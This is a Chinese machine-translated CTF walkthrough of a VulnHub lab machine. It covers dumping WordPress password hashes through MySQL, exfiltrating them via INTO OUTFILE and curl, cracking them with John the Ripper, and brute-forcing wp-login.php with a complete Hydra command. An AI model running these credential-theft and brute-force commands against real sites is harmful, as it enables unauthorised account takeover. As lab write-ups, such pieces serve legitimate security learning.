





# 密码

> 原文：<https://infosecwriteups.com/pwning-wordpress-passwords-2caf12216956?source=collection_archive---------0----------------------->


在我的[上一篇文章](https://medium.com/bugbountywriteup/stapler-pt-2-webshells-cronjobs-549b13dbf3d3)中，我从服务器恢复了`mysql`凭证，并从那里将一个 webshell 写到磁盘。这一次，我们将通过转储散列，用`John The Ripper`破解它们，以及用`Hydra`强制 WordPress 登录来进一步利用数据库内容。

## 获取哈希值

为了用一行程序访问`mysql`服务，我使用了以下代码:

```
mysql --user=root --password=plbkac --host=192.168.15.151
```

对于真实的约定和以明文形式输入密码存在安全问题的情况，您可以省略`-password`标志，而是在连接时提示您输入密码。

一旦我们连接到服务，我们可以开始枚举里面的东西！首先，让我们列出数据库:

```
> show databases;
```

我们可以看到有几个。今天的兴趣是`wordpress`，但是`loot`和`proof`很有趣，我鼓励每个人自己去看看。

我们来列举一下`wordpress`数据库。为此，我们必须选择它:

```
> use wordpress
```

很简单。现在让我们看看这个数据库中有哪些表:

```
> show tables;
```

好吧，酷。这看起来就像是所有需要储存在博客上的东西被保存的地方。让我们看看`wp_users`表，看看我们是否能得到一些信用:

```
> describe wp_users;
```

看看这些字段，我们似乎会对`user_login`和`user_pass`感兴趣。要查看这些字段:

```
> select user_login, user_pass from wp_users;
```

我们也可以将这两个文件连接在一起，看起来像`user:password`:

```
> select concat_ws(‘:’, user_login, user_pass) from wp_users;
```

我们可以复制并粘贴这个列表，因为它只有 16 个条目。然而，我们也可以将它写入一个文件，并从服务器中检索它。在我之前的帖子中，我们通过`mysql`编写了一个 webshell，并将其放在`/var/www/https/blogblog/wp-content/uploads/`目录中。

```
select concat_ws(‘:’, user_login, user_pass) from wp_users into outfile ‘/var/www/https/blogblog/wp-content/uploads/creds.txt’;
```



用户:通过

这是哈希值。我们可以直接从服务器上获取这个文件，方法是:

```
curl -k https://192.168.15.151:12380/blogblog/wp-content/uploads/creds.txt > creds.txt
```

> `-k`忽略服务器的自签名证书

## 破解哈希

现在我们已经从服务器上获得了密码散列，让我们开始破解吧！由于我在虚拟机中运行 Kali，我不能运行`hashcat`,因为我没有运行它的 GPU。我破解哈希的首选是`John The Ripper`和`rockyou`单词表。不是因为这些总能让我得到结果，而是因为对于像 VulnHub 上的许多 CTF 风格的机器来说，如果散列应该被破解，这些应该可以做到。

这些是我以前没有体验过的 phpass 散列。我试着给`John The Ripper`一个`user:pass`格式来破解密码，并将它们关联到与之相关的用户名。然而，该文件导致了一个我没有预料到的格式错误。我能够成功地运行`John The Ripper`,只需要散列，不需要用户名。

```
john hashes --wordlist=/usr/share/wordlists/rockyou.txt
```



破解哈希

单词表破解了大约一半的哈希。但是现在我遇到了一个不同的问题:哪个密码属于哪个账户？

## 强力登录 WordPress

为了将用户名与破解的密码关联起来，我选择使用`hydra`。我将用户名复制到一个文件中，将明文密码复制到另一个文件中。强制 web 登录比 ssh 之类的其他服务要复杂一些。这是因为您必须提供每个参数的字段名称以及会话 cookies，以及不成功的尝试是什么样子的。



测试请求

为了获得必要的字段名，我启动了`burpsuite`并创建了一个测试登录来拦截在认证尝试期间发送的字段。

我输入`name`作为用户名，输入`secret`作为密码。当我用`burpsuite`拦截请求时，我能够看到对于一次登录尝试来说还有其他必要的字段。



打嗝

总之，我需要指定四个字段，`log`作为用户名，`pwd`作为密码，`wp-submit`作为登录名，`testcookie`等于`1`。当 WordPress 重定向一个成功的认证时，页面在源中包含`Location`；失败的情况并非如此。我们可以将所有这些信息交给`hydra`来破解这些密码。`hydra`使用`^USER^`和`^PASS^`作为锚字段，在暴力破解尝试中进行迭代。

```
hydra 192.168.15.151 -s 12380 https-form-post “/blogblog/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location” -L users -P pass
```

> `-s`指定端口 12380
> `https-form-post`指定通过 https 发送 post 请求
> `/blogblog/wp-login.php`是登录页面
> `log=^USER^`指定用户名字段
> `pwd=^PASS^`指定密码字段
> `&wp-submit=Log In`指定登录按钮
> `&testcookie=1`指定 cookie 名称和值
> `S=Location`表示测试成功，成功将包含“位置”
> `-L`指定用户名列表名称
> `-P`指定密码列表名称

因为这个命令相当长，所以我把它放在一个 shell 脚本中，以便以后编辑和保存，并把它命名为`brute.sh`。



残忍的

在这里，我们看到`hydra`能够在几秒钟内将所有密码匹配到他们的用户名！在具有任何类型的日志记录或监控的机器上进行暴力破解是一件很麻烦的事情。有可能启动入侵防御系统，将我们的 IP 列入黑名单。然而，由于这台机器没有任何保护措施，我们可以用我们的用户列表和密码列表运行`hydra`并在没有`John The Ripper`的情况下得到相同的结果。

我们能够破解 WordPress 管理员的多个证书。这些帐户拥有提升的权限，允许他们将任意文件写入机器上的磁盘。这是在盒子上获得外壳的可能途径。